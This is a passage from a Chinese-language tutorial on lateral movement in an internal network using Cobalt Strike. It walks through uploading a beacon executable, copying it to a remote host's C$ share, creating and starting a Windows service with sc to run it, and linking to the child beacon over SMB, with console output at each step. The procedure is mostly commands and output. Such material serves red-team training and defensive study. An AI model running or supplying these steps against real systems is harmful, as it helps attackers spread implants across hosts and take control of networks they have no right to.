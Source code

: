 如果用于内网中的横向移动，那么强烈建议使用 SMB Beacon，SMB Beacon 就是为了内网横向扩展渗透而设计的。
**上传可执行文件**
首先使用 Cobalt Strike 上的 upload 功能上传文件，接着复制文件到目标主机的其他位置。

```powershell
shell copy file.exe \\host\C$\Windows\Temp
```

```powershell
beacon> upload /root/beacon.exe
[*] Tasked beacon to upload /root/Desktop/beacon.exe as beacon.exe
[+] host called home, sent: 289302 bytes

beacon> shell copy beacon.exe \\WinTest\C$\Windows\Temp
[*] Tasked beacon to run: copy beacon.exe \\WinTest\C$\Windows\Temp
[+] host called home, sent: 72 bytes
[+] received output:
已复制         1 个文件。
```

**执行文件（方法一）**
1、生成 Windows Service EXE 并上传
2、在目标主机上创建一个服务
```powershell
shell sc \\host create name binpath= c:\windows\temp\file.exe
```

```powershell
beacon> shell sc \\wintest create beacon binpath= c:\windows\temp\beacon.exe
[*] Tasked beacon to run: sc \\wintest create beacon binpath= c:\windows\temp\beacon.exe
[+] host called home, sent: 93 bytes
[+] received output:
[SC] CreateService 成功
```

注：记住 binpath 路径
3、在目标主机上启动服务

```powershell
shell sc \\host start name
```

```powershell
beacon> shell sc \\wintest start beacon
[*] Tasked beacon to run: sc \\wintest start beacon
[+] host called home, sent: 56 bytes
[+] received output:
SERVICE_NAME: beacon 
        TYPE               : 10  WIN32_OWN_PROCESS  
        STATE              : 2  START_PENDING 
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 3816
        FLAGS              : 
        
beacon> link wintest
[*] Tasked to link to \\wintest\pipe\msagent_da00
[+] host called home, sent: 36 bytes
[+] established link to child beacon: 192.168.175.130
```
